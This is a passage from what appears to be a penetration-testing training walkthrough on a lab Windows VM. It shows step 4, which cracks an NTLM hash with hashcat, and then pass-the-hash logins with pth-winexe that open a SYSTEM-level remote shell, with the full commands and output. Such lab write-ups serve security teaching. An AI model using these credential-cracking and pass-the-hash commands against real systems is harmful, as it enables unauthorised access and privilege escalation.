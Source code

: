 4. Crack the hashes with hashcat
> hashcat -m 1000 a9fdfa038c4b75ebc76dc855dd74f0da password
```bash
┌──(kali㉿kali)-[~/Training]
└─$ hashcat -m 1000 a9fdfa038c4b75ebc76dc855dd74f0da password
hashcat (v6.1.1) starting...

-- Snip --

a9fdfa038c4b75ebc76dc855dd74f0da:password123

Session..........: hashcat
Status...........: Cracked
Hash.Name........: NTLM
Hash.Target......: a9fdfa038c4b75ebc76dc855dd74f0da
Time.Started.....: Fri Oct 29 12:16:37 2021 (0 secs)
Time.Estimated...: Fri Oct 29 12:16:37 2021 (0 secs)
Guess.Base.......: File (password)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     3116 H/s (0.00ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 2/2 (100.00%)
Rejected.........: 0/2 (0.00%)
Restore.Point....: 0/2 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: password321 -> password123

Started: Fri Oct 29 12:16:36 2021
Stopped: Fri Oct 29 12:16:39 2021
```

These hashes can also be used to pass the hash:
> pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.1.174 cmd.exe    
> pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.1.174 cmd.exe
```bash
┌──(kali㉿kali)-[~]
└─$ pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.1.174 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.17763.379]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
msedgewin10\admin

┌──(kali㉿kali)-[~]
└─$ pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.1.174 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.17763.379]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```
